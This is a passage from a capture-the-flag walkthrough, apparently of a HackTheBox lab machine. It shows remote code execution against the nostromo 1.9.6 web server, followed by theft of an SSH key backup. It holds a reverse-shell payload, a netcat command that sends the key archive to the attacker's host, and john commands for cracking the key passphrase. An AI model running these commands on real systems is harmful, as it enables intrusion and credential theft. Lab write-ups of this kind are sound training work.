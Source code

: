 We get the following results : 

```bash
nostromo 1.9.6 - Remote Code Execution  |  multiple/remote/47837.py
```

Now we can just use this exploit and here all you have to do is copy this exploit and remove the cve-* word in the start and then we can run this with python2 to get remote code execution and get a reverse shell back to us like so : 

```bash
python cve2019_16278.py 10.10.10.165 80 "nc -e /bin/bash 10.10.14.2 4444"
``` 

and listen for a shell back with netcat : 
```
rlwrap nc -nvlp 4444
```

I use rlwrap because it gives a better shell, with ability to move up and down commands like bash.

and then Lets ennumerate more as we are still www-data and our shell is not privelleged enough to cat out the user.txt/root.txt file so lets try to find something laterly and with the www-data shell my main idea would be to always try to look up the config files in the web directory as thats commonly owned by www-data and has passwords in them. In this case that folder would be `/var/nostromo/conf` and here we see 3 files for the most intresting ones are htacesss and nhttpd.conf , we can read htaccess and it has a password hash for the user david , i cracked but it turned out to be a dead end moving on to the nhttpd.conf we see this information 

```bash
# HOMEDIRS [OPTIONAL]

homedirs                /home
homedirs_public         public_www

```

Which says that the public_www folder is public to all users in the home dir and we see that in home the only user is David so we can just do this `cd /home/david/public_www/` and get access to files there and we see that there is a folder called protected-file-area which contains backup-ssh-identity-files.tgz and bingo that seems to contain the ssh key lets bring it to our machine and use it to login to transfer files i like to use nc but if you wanna find more information about file transfers and other techniques you can find it in my notes in the file trasnfer section. To transfer we can use :
```
# On your machine
nc -l -p 1234 > backup.tgz
# On the target machine
nc -w 3 10.10.14.3 1234 < backup-ssh-identity-files.tgz
```
and then we can use tar to unzip this file like so :
```
tar -xvf backup.tgz
```
and we get the id_rsa key now, if you try to chmod 600 and use it has a passphrase on it we can use ssh2john.py to crack this easily though so lets do that 
```
/usr/share/john/ssh2john.py id_rsa > idhash
```
Then we can use john to crack this hash :
```
sudo john idhash -w=/usr/share/wordlists/rockyou.txt
```
